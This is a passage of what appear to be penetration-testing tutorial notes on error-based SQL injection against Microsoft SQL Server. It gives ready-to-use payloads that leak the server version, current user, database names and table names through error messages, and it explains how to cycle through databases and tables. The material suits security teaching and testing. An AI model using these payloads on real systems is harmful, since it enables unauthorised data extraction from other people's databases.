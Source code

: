 
Example:
```
999999 or 1 in (SELECT TOP 1 CAST (@@version as varchar (4096))) -- -
```

- Knowing the database version is really important because it helps you during the exploitation phase.
- Different MS SQL Server versions have different default column names in the master database. We can find information about the structure of the master database on MSDN 
- MSDN - https://msdn.microsoft.com/en-us/library/ms187837.aspx

### Dumping the Database Data
- How to extract information from a database by using error-based SQL injections
	current database username
	current database name
	installed databases
	the tables into a given database
	the columns of a given table
	database data

### Finding the Current Username
Understand the level of privilege we have, by finding the current database user:
```
99999 or 1 in (SELECT TOP 1 CAST(user_name() as varchar (4096))) --
```

> user_name() is a MS SQL function which returns the current database user

### Finding Readable Databases
To do that we will iterate through the MASTER database to find all the databases that we can read:
```
99999 or 1 in (SELECT TOP 1 CAST(db_name(0) as varchar (4096))) --
```

> db_name() function accesses the master..sysdatabases table which stores all the databases installed on the server. We can only see the databases that user has rights to.

To enumerate all the databases we just have to increment the db_name() argument:
```
99999 or 1 in (SELECT TOP 1 CAST(db_name(1) as varchar (4096))) --
```

> Cycle through 1,2,3 and continue until we cannot enumerate any more databases.

### Enumerating Database Tables
```
99999 or 1 in (SELECT TOP 1 CAST(name as varchar (4096))) FROM <database name>..sysobjects WHERE xtype='U' and name NOT IN (<known table list>)); --
```

// xtype='U' = user defined tables
// name NOT IN ('<known table list>') = name is a column of the **sysobjects** special table. Every time we find a new table we will append it to the NOT IN list. This is needed because the error displays only the first table name.
